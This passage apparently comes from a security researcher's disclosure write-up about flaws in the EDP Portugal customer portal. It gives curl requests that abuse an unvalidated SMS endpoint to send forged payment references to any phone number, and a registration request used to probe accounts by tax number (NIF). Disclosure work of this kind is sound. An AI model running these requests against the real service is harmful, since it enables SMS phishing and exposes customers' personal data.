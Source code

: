 This is pretty useful but unfortunately lacked a few validation checks, allowing an attacker to send forged data instead of the supposed payment details. The phone number wasn't validated either, meaning that you could send the aforementioned message to a recipient of your choosing.

When submitting the form, the following request was executed:

{% highlight shell %}
curl -X POST \
  https://edponline.edp.pt/api/v2/contract/sendSMSPaymentReference \
  -H 'cookie: PHPSESSID=YOUR_SESSION' \
  -d '{
          "category": "contract",
          "operation": "sendSMSPaymentReference",
          "Body": {
              "ContractId": "YOUR_CONTRACT_ID",
              "Phone": "123456789",
              "Entity": "$Injected$",
              "Reference": "$Injected$",
              "Amount": "$Injected$",
              "LimitDate": "$Injected$"
          }
      }'
{% endhighlight %}

This sent an SMS message to `123456789` with the injected data. Note that the fields with `$Injected` could be different from each other and take any string.

{% include image.html path="edp/sms-result.png"
   alt="Received SMS." caption-no="6" caption="Received SMS." reduced=""
%}

A better approach would be to only send the payment record id when the user requests the SMS.


## Email & Phone Exfiltration via NIF

Outside the private account area, there are also interesting endpoints to tinker with. In this case, the various interconnected registration and password reset flows were flawed in several ways.

Take for example the following request:

{% highlight shell %}
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/register \
  -d '{
          "category": "auth",
          "operation": "register",
          "Body": {
              "Operation": "CheckUser",
              "Nif": "123456789",
          }
      }'
{% endhighlight %}

This is sent when a user attempts to register with a certain `NIF` (`123456789` in this case). If the `NIF` is already registered, the following page is presented to the user.
